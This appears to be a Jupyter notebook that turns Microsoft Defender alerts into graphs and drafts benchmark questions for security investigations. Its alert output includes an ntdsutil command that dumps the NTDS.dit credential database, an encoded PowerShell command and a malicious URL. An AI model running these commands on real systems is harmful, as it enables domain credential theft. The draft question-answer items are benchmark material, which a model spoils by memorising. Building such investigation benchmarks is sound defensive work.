In [56]:
import pandas as pd
from secgym.qagen.alert_paser import processs_incidents
from secgym.qagen.alert_graph import AlertGraph


ia_pairs = processs_incidents(alert_path="./SecurityAlert.csv", incident_path="./SecurityIncident.csv")
sample_incident, sample_alerts = ia_pairs[1]
alert_graph = AlertGraph()
alert_graph.build_graph_from_incident_alert(sample_incident, sample_alerts)

# alert_graph.save_to_graphml("sample_incident.graphml")
# alert_graph = AlertGraph()
# alert_graph.load_graph_from_graphml("sample_incident.graphml")
# alert_graph.incident

Number of filtered incidents: 7


In [58]:
for alert in alert_graph.alerts:
    print(alert)

TenantId                                e34d562e-ef12-4c4e-9bc0-7c6ae357c015
TimeGenerated [UTC]                               8/14/2024, 10:34:41.578 PM
DisplayName                 Ntdsutil collecting Active Directory information
AlertName                   Ntdsutil collecting Active Directory information
AlertSeverity                                                         Medium
Description                Attackers might be using Ntdsutil to gather in...
ProviderName                                                           MDATP
VendorName                                                         Microsoft
VendorOriginalId                      eb13c6a6-172c-47b5-998e-eb87b88af8b3_1
SystemAlertId                           73846159-bcd1-d7a5-ecca-f46ec2a26bd6
ResourceId                                                               NaN
SourceComputerId                                                         NaN
AlertType                                                 WindowsDefenderAtp

In [55]:
print(alert_graph.incident['Title'])

Multi-stage incident involving Initial access & Collection on multiple endpoints reported by multiple sources




In [54]:
import networkx as nx
alert_graph.plot_custom_graph(
        root=0, 
        figsize=(30, 20),
        base_node_size=15000, 
        show_plot=True, 
        save_figure=False, 
        file_path=None,
        layout=nx.fruchterman_reingold_layout(alert_graph.graph),
)


In [1]:
import pandas as pd
from secgym.qagen.alert_paser import processs_incidents
from secgym.qagen.alert_graph import AlertGraph


# ia_pairs = processs_incidents(alert_path="./SecurityAlert.csv", incident_path="./SecurityIncident.csv")
# sample_incident, sample_alerts = ia_pairs[1]
# alert_graph = AlertGraph()
# alert_graph.build_graph_from_incident_alert(sample_incident, sample_alerts)
# alert_graph.incident

alert_graph = AlertGraph()
alert_graph.load_graph_from_graphml("sample_incident.graphml")
print("Alert graph loaded.")

alert_graph.plot_custom_graph(
    save_figure=True,
    file_path="sample_incident.png",
    figsize=(40, 40),
    show_plot=False
)
print("Alert graph plotted.")

# alert_graph.get_e2e_paths()
# alert_graph.get_graph_patterns()
all_paths = alert_graph.get_alert_paths()

Alert graph loaded.
Alert graph plotted.
Alert pair: 0 -> 0
Start entities: [1, 2, 3, 4, 5]
Dist map: {1: [1, 2, 3, 4, 5]}
Alert pair: 0 -> 0, start entities: [2, 5], end entity: [1], shortest alert path: [0]
----------------------------------------------------------------------------------------------------
Alert pair: 0 -> 32
Start entities: [1, 2, 3, 4, 5]
Dist map: {5: [1, 2, 3, 4], 3: [5]}
Start entities: [13, 14, 15, 16, 17]
Dist map: {3: [13, 14, 15, 16, 17]}
Alert pair: 0 -> 32, start entities: [3, 1], end entity: [14], shortest alert path: [0, 5, 7, 13, 32]
----------------------------------------------------------------------------------------------------
Alert pair: 0 -> 33
Start entities: [1, 2, 3, 4, 5]
Dist map: {7: [1, 2, 3, 4], 5: [5]}
Start entities: [25, 34, 35, 36]
Dist map: {5: [25], 7: [34, 35, 36]}
Alert pair: 0 -> 33, start entities: [3, 1], end entity: [35], shortest alert path: [0, 5, 7, 14, 24, 25, 33]
----------------------------------------------------------

In [11]:
def qagen_prompt_format(alert_graph, path_dict):
    print(path_dict['shortest_alert_path'])
    def format_alert_str(alert_node: int, entities:list):
        print(alert_node)
        alert = json.loads(alert_graph.get_node(alert_node)['entry'])
        entity_str = ""
        for n in entities:
            entity = alert_graph.get_node(n)
            entity_str += f"Type: {entity['node_type']}, Field: {entity['identifier_fields']}, Value: `{entity['value']}`\n"
        return f"""Time: {alert['TimeGenerated [UTC]']}
Name: {alert['AlertName']}
Description: {alert['Description']}
Entities from this alert:
{entity_str.strip()}
"""
    start_alert_str = format_alert_str(path_dict['start_alert'], path_dict['start_entities'])
    end_alert_str = format_alert_str(path_dict['end_alert'], path_dict['end_entity'])

    return f"Start Alert:\n{start_alert_str}\nEnd Alert:\n{end_alert_str}"

print(qagen_prompt_format(alert_graph, all_paths[57]))


[24, 14, 7, 5, 6]
24
6
Start Alert:
Time: 8/14/2024, 10:37:13.079 PM
Name: Malicious URL was clicked on that device
Description: Malicious URL was clicked on that device
Entities from this alert:
Type: url, Field: Url, Value: `https://dj01161621.bravesand-e1ccd718.eastus.azurecontainerapps.io/`
Type: process, Field: ProcessId__CreatedTimeUtc__CommandLine, Value: `4256__2024-08-01t13:42:52.04__"msedge.exe" --type=utility --utility-sub-type=network.mojom.networkservice --lang=en-us --service-sandbox-type=none --field-trial-handle=1912,i,9358546549091360037,1317674413260171076,262144 --variations-seed-version --mojo-platform-channel-handle=3124 /prefetch:11`

End Alert:
Time: 8/14/2024, 10:34:41.429 PM
Name: Suspicious credential dump from NTDS.dit
Description: Attackers dump NTDS.dit in order to obtain user's credentials which are stored in the domain controller.
Entities from this alert:
Type: process, Field: ExtractedFileName, Value: `ntdsutil.exe`



In [ ]:
"""
Start Alert:
Time: 8/14/2024, 10:34:41.578 PM
Name: Ntdsutil collecting Active Directory information
Description: Attackers might be using Ntdsutil to gather information for persistence or to move laterally in a network or organization. Ntdsutil is a command line tool that provides management facilities for Active Directory Domain Services (AD DS) and Active Directory Lightweight Directory Services (AD LDS). It was launched to maintain the database of AD DS.
Entities from this alert:
Type: process, Field: ExtractedFileName, Value: `powershell.exe`
Type: host, Field: HostName, Value: `vnevado-dc`

End Alert:
Time: 8/14/2024, 10:34:41.578 PM
Name: Ntdsutil collecting Active Directory information
Description: Attackers might be using Ntdsutil to gather information for persistence or to move laterally in a network or organization. Ntdsutil is a command line tool that provides management facilities for Active Directory Domain Services (AD DS) and Active Directory Lightweight Directory Services (AD LDS). It was launched to maintain the database of AD DS.
Entities from this alert:
Type: process, Field: ProcessId__CreatedTimeUtc__CommandLine, Value: `2556__2024-08-01t12:37:29.6522416z__"powershell.exe" -encodedcommand iabuahqazabzahuadabpagwalgblahgazqagaccayqbjacaaaqagag4adabkahmajwagaccaaqbmag0ajwagaccaywbyaguayqb0aguaiabmahuababsacaaywa6afwadablag0acaanacaacqagaheaowagacaadwbnaguadaagaggadab0ahaacwa6ac8alwbnagkadaboahuaygauagmabwbtac8acgazag0abwb0aguaywbvag4adabyag8abaavaecaaabvahmadabwageaywbrac0aqwbvag0acabpagwazqbkaeiaaqbuageacgbpaguacwavahiayqb3ac8abqbhahmadablahialwbsahuaygblahuacwauaguaeablacaalqbvahuadabmagkabablacaadablahmadaauaguaeablacaalqb1ahmazqbiageacwbpagmacabhahiacwbpag4azwa7acaaiabpag4adgbvagsazqatahiazqbzahqabqblahqaaabvagqaiaatag0azqb0aggabwbkacaazwblahqaiaatahuacgbpacaadgblagmadabvahiacwbhag4azabhahiacgbvahcacwauagmabwbtacaalqb1ahmazqbiageacwbpagmacabhahiacwbpag4azwa7acaaiabpag4acwb0ageababsac0abqbvagqadqbsaguaiabhahoalgbhagmaywbvahuabgb0ahmaiaatahmaywbvahaazqagaemadqbyahiazqbuahqavqbzaguacgagac0argbvahiaywbladsaiabpag4acwb0ageababsac0abqbvagqadqbsaguaiabhahoalgbzahqabwbyageazwblacaaiaatahmaywbvahaazqagaemadqbyahiazqbuahqavqbzaguacgagac0argbvahiaywbladsaiaagaemabwbuag4azqbjahqalqbbahoaqqbjagmabwb1ag4adaagac0asqbkaguabgb0agkadab5adsaiaagacqargbpagwazqagacaaiaagacaaiaagacaaiaagacaaiaagad0aiaanagmaogbcahqazqbtahaaxabbagmadabpahyazqagaeqaaqbyaguaywb0ag8acgb5afwabgb0agqacwauagqaaqb0accaowagacaajabzacaapqagagcazqb0ac0ayqb6ahmadabvahiayqbnaguaqqbjagmabwb1ag4adaa7acaaiaakagmabwbuahqazqb4ahqaiaa9acaajabzac4aqwbvag4adablahgadaa7acaaiaakaemabwbuahqayqbpag4azqbyae4ayqbtaguaiaa9acaaigbhahuadabvag0ayqb0agkabwbuaciaowagacaajabcagwabwbiadmasabuacaapqagaeaaewagacaaiaagacaargbpagwazqagacaaiaagacaaiaagacaaiaagacaaiaagad0aiaakaeyaaqbsaguaowagacaaiaagacaaqwbvag4adabhagkabgblahiaiaagacaaiaagacaaiaagad0aiaakaemabwbuahqayqbpag4azqbyae4ayqbtaguaowagacaaiaagacaaqgbsag8aygagacaaiaagacaaiaagacaaiaagacaaiaagad0aiaanaekabqbhagcazqawadaamwauagoacabnaccaowagacaaiaagacaaqwbvag4adablahgadaagacaaiaagacaaiaagacaaiaagad0aiaakagmabwbuahqazqb4ahqaowagacaaiaagacaauwb0ageabgbkageacgbkaeiababvagiavabpaguacgagad0aiaanaeeacgbjaggaaqb2aguajwa7acaaiaagah0aowagafmazqb0ac0aqqb6afmadabvahiayqbnaguaqgbsag8aygbdag8abgb0aguabgb0acaaqabcagwabwbiadmasabuadsaiaagaa==`
##############
{
    "content": "A file `powershell.exe` was launched on host `vnevado-dc`, which might be an indicator of an attacker using Ntdsutil to gather information for persistence or to move laterally in a network or organization. Note: Ntdsutil is a command line tool that provides management facilities for Active Directory Domain Services (AD DS) and Active Directory Lightweight Directory Services (AD LDS). It was launched to maintain the database of AD DS.",
    "question": When was the last time the file `powershell.exe` was launched on host `vnevado-dc`, and what was the process ID?
    "answer": "Time: 2024-08-01t12:37:29.6522416, Process Id: 2556"
}
##############
##############
Start Alert:
Time: 8/14/2024, 10:34:41.429 PM
Name: Suspicious credential dump from NTDS.dit
Description: Attackers dump NTDS.dit in order to obtain user's credentials which are stored in the domain controller.
Entities from this alert:
Type: process, Field: ProcessId__CreatedTimeUtc__CommandLine, Value: `6748__2024-08-01t12:37:30.2769191z__"ntdsutil.exe" "ac i ntds" ifm "create full c:\temp" q q`
Type: process, Field: ExtractedFileName, Value: `ntdsutil.exe`

End Alert:
Time: 8/14/2024, 10:37:13.064 PM
Name: Suspicious Azure Resource Management activities by a risky user
Description: Suspicious cloud Azure Resource Management (ARM) activities were performed by a user account that signed in to a risky session. This alert was triggered based on a Microsoft Defender for Cloud alert related to ARM and Microsoft Entra ID Protection risk scores.
Entities from this alert:
Type: account, Field: Email, Value: `Megan Bower@vnevado.alpineskihouse.co`
##############
{
    "content": "A file `ntdsutil.exe` was launched with this command line: `ntdsutil.exe ac i ntds ifm create full c:\temp q q`. The Process ID was 6748. This process might be an indicator of an attacker dumping NTDS.dit in order to obtain user's credentials which are stored in the domain controller.",
    "question: "Related to this alert, there is also a suspicious Azure Resource Management (ARM) activities, which is likely from the same user. Can you get the email of the user who performed the suspicious ARM activities?"
    "answer": "Megan Bower@vnevado.alpineskihouse.co",
}
##############
##############
Start Alert:
Time: 8/14/2024, 10:37:13.079 PM
Name: Malicious URL was clicked on that device
Description: Malicious URL was clicked on that device
Entities from this alert:
Type: url, Field: Url, Value: `https://dj01161621.bravesand-e1ccd718.eastus.azurecontainerapps.io/`
Type: process, Field: ProcessId__CreatedTimeUtc__CommandLine, Value: `4256__2024-08-01t13:42:52.04__"msedge.exe" --type=utility --utility-sub-type=network.mojom.networkservice --lang=en-us --service-sandbox-type=none --field-trial-handle=1912,i,9358546549091360037,1317674413260171076,262144 --variations-seed-version --mojo-platform-channel-handle=3124 /prefetch:11`

End Alert:
Time: 8/14/2024, 10:34:41.429 PM
Name: Suspicious credential dump from NTDS.dit
Description: Attackers dump NTDS.dit in order to obtain user's credentials which are stored in the domain controller.
Entities from this alert:
Type: process, Field: ExtractedFileName, Value: `ntdsutil.exe`
##############
{
    "content": "A malicious URL `https://dj01161621.bravesand-e1ccd718.eastus.azurecontainerapps.io/` was clicked on Microsoft Edge browser, the ProcessId__CreatedTimeUtc__CommandLine is `4256__2024-08-01t13:42:52.04__"msedge.exe" --type=utility --utility-sub-type=network.mojom.networkservice --lang=en-us --service-sandbox-type=none --field-trial-handle=1912,i,9358546549091360037,1317674413260171076,262144 --variations-seed-version --mojo-platform-channel-handle=3124 /prefetch:11`.",
    "question": "Related to this alert, there is also a suspicious credential dump from NTDS.dit. Can you get the file name of the process that was used to dump the NTDS.dit?"
}
"""

In [5]:
import json
json.loads(start_node['entry'])
# useful: 'TimeGenerated [UTC]', "DisplayName",  Description, 

{'TenantId': 'e34d562e-ef12-4c4e-9bc0-7c6ae357c015',
 'TimeGenerated [UTC]': '8/14/2024, 10:34:41.578 PM',
 'DisplayName': 'Ntdsutil collecting Active Directory information',
 'AlertName': 'Ntdsutil collecting Active Directory information',
 'AlertSeverity': 'Medium',
 'Description': 'Attackers might be using Ntdsutil to gather information for persistence or to move laterally in a network or organization. Ntdsutil is a command line tool that provides management facilities for Active Directory Domain Services (AD DS) and Active Directory Lightweight Directory Services (AD LDS). It was launched to maintain the database of AD DS.',
 'ProviderName': 'MDATP',
 'VendorName': 'Microsoft',
 'VendorOriginalId': 'eb13c6a6-172c-47b5-998e-eb87b88af8b3_1',
 'SystemAlertId': '73846159-bcd1-d7a5-ecca-f46ec2a26bd6',
 'ResourceId': nan,
 'SourceComputerId': nan,
 'AlertType': 'WindowsDefenderAtp',
 'ConfidenceLevel': nan,
 'ConfidenceScore': nan,
 'IsIncident': False,
 'StartTime [UTC]': '8/1/2024, 12:

In [2]:

alert_graph = AlertGraph()
alert_graph.load_graph_from_graphml("sample_incident.graphml")
alert_graph.incident

TenantId                                e34d562e-ef12-4c4e-9bc0-7c6ae357c015
TimeGenerated [UTC]                               2024-08-17 22:40:19.079000
IncidentName                            909f13db-13ce-4584-a4b5-6aa0e67397c6
Title                      Multi-stage incident involving Initial access ...
Description                                                              NaN
Severity                                                                High
Status                                                                   New
Classification                                                           NaN
ClassificationComment                                                    NaN
ClassificationReason                                                     NaN
Owner                      {"objectId":null,"email":null,"assignedTo":"Mi...
ProviderName                                                   Microsoft XDR
ProviderIncidentId                                                       801



In [4]:
alert_graph.plot_custom_graph(
                        root=0, 
                        figsize=(30, 20),
                        base_node_size=15000, 
                        show_plot=True, 
                        save_figure=False, 
                        file_path=None,
                        layout='fruchterman_reingold',
)


In [8]:
len(alert_graph.alerts)

AttributeError: 'AlertGraph' object has no attribute 'alerts'

In [2]:
type(sample_incident)

pandas.core.series.Series

In [3]:
# alert = security_alert[security_alert['SystemAlertId'].isin(alert_ids)]

# sort alerts by time
security_alert["TimeGenerated [UTC]"] = pd.to_datetime(security_alert["TimeGenerated [UTC]"])
security_alert = security_alert.sort_values(by="TimeGenerated [UTC]", ascending=False)


alert_ids = json.loads(filtered_incidents[0]['AlertIds'])

# extract the latest security alerts
def extract_alert(alert_ids, security_alert):
    found_alert_ids = []
    alerts_to_return = []
    for alert in security_alert.iterrows():
        if alert[1]['SystemAlertId'] in alert_ids and alert[1]['SystemAlertId'] not in found_alert_ids:
            alerts_to_return.append(alert[1])
            found_alert_ids.append(alert[1]['SystemAlertId'])
    return alerts_to_return

alerts = extract_alert(alert_ids, security_alert)

NameError: name 'security_alert' is not defined

In [ ]:
def get_string_difference(set1, set2):
    return set1.difference(set2)

get_string_difference(set(json.loads(filtered_incidents[0]['AlertIds'])), set(json.loads(filtered_incidents[1]['AlertIds'])))
# iterate all the incidents and find the length of the difference between the alert ids, print differen < 5

for i in range(len(filtered_incidents)):
    for j in range(i+1, len(filtered_incidents)):
        alert_diff = get_string_difference(set(json.loads(filtered_incidents[i]['AlertIds'])), set(json.loads(filtered_incidents[j]['AlertIds'])))
        if len(alert_diff) < 3:
            print(f"incident {i} and incident {j} have less than 5 different alerts")
            # print(f"Time: {f['TimeGenerated [UTC]']}, Len alert: {len(json.loads(f['AlertIds']) )}, Title: {f['Title']},  Labels: {label_names}")
            
            print(f"Time 1: {filtered_incidents[i]['TimeGenerated [UTC]']} Time 2: {filtered_incidents[j]['TimeGenerated [UTC]']}")
            # print title
            print(f"Title 1: {filtered_incidents[i]['Title']} ")
            print(f"Title 2: {filtered_incidents[j]['Title']} ")
            print(f"Alert diff: {alert_diff}")
            print(f"Alert 1: {json.loads(filtered_incidents[i]['AlertIds'])}")

            print(f"Alert 2: {json.loads(filtered_incidents[j]['AlertIds'])}")
            print("*"*50)

In [ ]:
# get data from only july, exclude august datetime
for f in filtered_incidents:
    # TimeGenerated is type timestamp: 2024-08-17 22:40:19.086000
    # if f['TimeGenerated [UTC]'].month != 7:
    #     continue
    # from 7.15 till now
    if f['TimeGenerated [UTC]'] < pd.Timestamp(2024, 7, 15):
        continue
    # else:
    #     print(f['TimeGenerated [UTC]'])

    # if not "BEC financial" in f['Title']:
    #     continue
    label_names = [label['labelName'] for label in json.loads(f['Labels'])]

    print(f"Time: {f['TimeGenerated [UTC]']}, Len alert: {len(json.loads(f['AlertIds']) )}, Title: {f['Title']},  Labels: {label_names}")

Time: 2024-08-17 22:40:19.086000, Len alert: 47, Title: Multi-stage incident involving Privilege escalation on multiple endpoints reported by multiple sources,  Labels: ['DomainDominance', 'LATEST', 'Missing Alerts']
Time: 2024-08-17 22:40:19.079000, Len alert: 9, Title: Multi-stage incident involving Initial access & Collection on multiple endpoints reported by multiple sources,  Labels: ['AiTM', 'LATEST', 'Missing Alerts', 'credential_phish_tag']
Time: 2024-08-17 22:40:18.822000, Len alert: 25, Title: Multi-stage incident involving Initial access & Lateral movement on multiple endpoints reported by multiple sources,  Labels: ['LATEST', 'MidnightBlizzard', 'Missing Alerts', 'credential_phish_tag']
Time: 2024-08-17 22:40:17.920000, Len alert: 11, Title: SAP financial process manipulation (attack disruption),  Labels: ['LATEST', 'SAP', 'bec_fraud_tag']
Time: 2024-08-16 22:40:03.168000, Len alert: 9, Title: BEC financial fraud attack was launched from a compromised account (attack disrup

In [ ]:
for f in filtered_incidents:
    print(f['AlertIds'])

["bc62b905-13b3-bf7e-fac5-b8f55cd9e286","472ee543-e720-76e4-b4db-bc99c88a8dc0","2e7cc01d-0ed3-84b9-4556-aa23164301c2","b77b286e-927a-22f3-adcc-c136631e84bc","01ae8ec5-f5cc-e41a-9eca-6e4ca64a33ab","321c68de-b896-3d4b-7402-1a912e97deb8","9e2045fe-e06d-e8b4-4971-acaff29a3e55","e37da1b0-a2cd-6c0b-6719-6bcf94be8bc7","d0e6545c-5142-acb5-d4a0-02b4d3b9ac1b"]
["f2ca8b1b-2085-f0db-8f58-31b2d8a5512c","3854e06e-bf97-e883-1ac6-530bbf641b74","af7cdf07-55b1-2ad7-bdb1-5129f862d78b","6bd4d57a-41a8-2d37-2e05-45421731afd5","b4d87322-7575-9c11-4073-58dc7f554a5a","4aef0a2f-e03b-b124-4d16-5cebdeacca6f","fe1adc68-ea85-2d91-65e8-64de4a76c63d","50fdb9b9-f2fa-a889-7001-b26630863595","415ebb64-5814-9056-1965-579f7c069472","d1ff5c7d-e659-2a59-a5b2-7c93aa59685e","ebcd87ab-0a11-0fc1-2ab3-ccbd634a054d"]
["e1c0bfa6-18c1-81b5-8a3e-0d347732b266","73846159-bcd1-d7a5-ecca-f46ec2a26bd6","75013ae0-7504-d192-8aae-90107aa6b19b","a2fb174d-cdd1-4484-436a-f3cb4c2713bb","435de706-beea-2f9f-c955-a0bec72a16ec","8f7670f2-f36b-5131-

In [ ]:
filtered_incident = []
existing_alerts = set()
for i in labeled_incident:
    # print(i['AlertIds'])
    if i['AlertIds'] not in existing_alerts:
        filtered_incident.append(i)
        existing_alerts.add(i['AlertIds'])


In [ ]:
alert_ids = security_incident.iloc[3]['AlertIds']
alert_ids = json.loads(alert_ids)


In [ ]:
def extract_alert(alert_ids, security_alert):
    alert = security_alert[security_alert['SystemAlertId'].isin(alert_ids)]
    return alert

alert_entries = extract_alert(alert_ids, security_alert)

In [ ]:
alert_entries['SystemAlertId'].value_counts()

b4d87322-7575-9c11-4073-58dc7f554a5a    15
ebcd87ab-0a11-0fc1-2ab3-ccbd634a054d    15
fe1adc68-ea85-2d91-65e8-64de4a76c63d    15
d1ff5c7d-e659-2a59-a5b2-7c93aa59685e    15
415ebb64-5814-9056-1965-579f7c069472    15
50fdb9b9-f2fa-a889-7001-b26630863595    15
6bd4d57a-41a8-2d37-2e05-45421731afd5    15
4aef0a2f-e03b-b124-4d16-5cebdeacca6f    15
Name: SystemAlertId, dtype: int64

In [ ]:
# check if there are repetitive alerts
alert_entries['SystemAlertId'].value_counts()

# get only first set of alerts
alert_entries = alert_entries.drop_duplicates(subset='SystemAlertId', keep='first')
len(alert_entries)

8

47




9




8




9


